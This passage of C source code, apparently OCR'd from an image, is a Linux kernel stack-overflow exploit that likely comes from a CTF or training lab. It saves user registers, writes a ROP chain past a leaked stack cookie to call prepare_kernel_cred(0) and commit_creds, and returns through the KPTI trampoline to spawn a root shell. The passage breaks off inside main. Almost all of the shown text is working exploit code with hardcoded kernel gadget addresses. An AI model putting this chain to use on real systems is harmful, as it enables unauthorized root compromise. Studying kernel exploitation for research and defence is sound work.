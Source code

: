         "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}

void payload(){
    uid_t uid = getuid();
    if (uid == 0) {
        printf("[+] we are root (uid = %d)\n", uid);
    } else {
        printf("[!] we are not root (uid: %d)\n", uid);
        exit(-1);
    }
    execl("/bin/sh", "sh", NULL);
    exit(0);
}

uint64_t user_rip = (uint64_t) payload;     // the last part of our ROP chain

uint64_t prepare_kernel_cred = 0xffffffff814c67f0;   // the offset from /proc/kallsyms
uint64_t commit_creds = 0xffffffff814c6410;

uint64_t pop_rdi_ret = 0xffffffff8100767c;     // pop rdi; ret
uint64_t mov_rdi_rax_movrsi_poprbp = 0xffffffff816bf203; // mov rdi, rax; mov [rsi+0x140], rdi; pop rbp; ret;

uint64_t swapgs_restore_regs_and_return_to_usermode = 0xffffffff81200f10; // the offset from /proc/kallsyms


void overflow_stack(){
    uint8_t sz = 40;
    uint64_t payload[sz];
    payload[cookie_off++] = cookie;
    payload[cookie_off++] = (uint64_t) 0;  // RBX
    payload[cookie_off++] = (uint64_t) 0;  // R12
    payload[cookie_off++] = (uint64_t) 0;  // RBP
    payload[cookie_off++] = (uint64_t) pop_rdi_ret;
    payload[cookie_off++] = (uint64_t) 0;
    payload[cookie_off++] = (uint64_t) prepare_kernel_cred;  // prepare_kernel_cred(0)

    payload[cookie_off++] = (uint64_t) mov_rdi_rax_movrsi_poprbp;  // need to move result to rdi
    payload[cookie_off++] = (uint64_t) 0; // popped to ebp
    payload[cookie_off++] = (uint64_t) commit_creds; // commit_creds(prepare_kernel_cred(0))

    payload[cookie_off++] = (uint64_t) swapgs_restore_regs_and_return_to_usermode + 22; // KPTI trampoline
    payload[cookie_off++] = (uint64_t) 0; // dummy RAX
    payload[cookie_off++] = (uint64_t) 0; // dummy RDI
    payload[cookie_off++] = (uint64_t) user_rip;
    payload[cookie_off++] = (uint64_t) user_cs;
    payload[cookie_off++] = (uint64_t) user_rflags;
    payload[cookie_off++] = (uint64_t) user_sp;
    payload[cookie_off++] = (uint64_t) user_ss;

    write(global_fd, payload, sizeof(payload));
    puts("if you can read this, it did not work.");
}

int main(int argc, char **argv){
    open_dev();
    save_state();
    leak_cookie();